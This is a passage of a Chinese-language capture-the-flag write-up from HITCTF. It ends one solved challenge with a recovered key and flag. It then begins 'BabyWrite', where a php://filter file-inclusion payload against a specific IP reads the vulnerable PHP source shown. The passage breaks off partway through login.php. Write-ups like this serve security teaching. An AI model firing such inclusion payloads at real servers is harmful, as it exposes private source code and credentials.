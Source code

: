 {"result":false}

故此我们可以爆破得到key：

{"key":["5","e","c","u","r","3","p","P","Y","p","y","P","Y","k","3","y"]}

此时提交key即可得到

flag:HITCTF{O0o0o0oOracle_Attttttack_1s_yinQu3S17ing}

07

BabyWrite

拿到题目后注意url

http://120.24.215.80:10012/?page=login

发现存在文件包含，随即尝试读源码

http://120.24.215.80:10012/?page=php://filter/read=convert.base64-encode/resource=index

发现读取成功

index.php

<?php

if(isset($_GET['page'])){

    $file = $_GET['page'].'.php';

    include($file);

}else{

    header("Location: /?page=login");

    die();

}

?>

发现是一个强行拼接.php的文件包含

再读login.php

<?php

    require_once('config.php');

    if(isset($_POST['username']) && isset($_POST['password'])){

        $username = $_POST['username'];

        $password = $_POST['password'];

        if ($username === "admin" && sha1(md5($password)) === $admin_hash){

            echo '<script>alert("Login seccess!");</script>';

        }else{

            if (isset($_GET['debug'])){

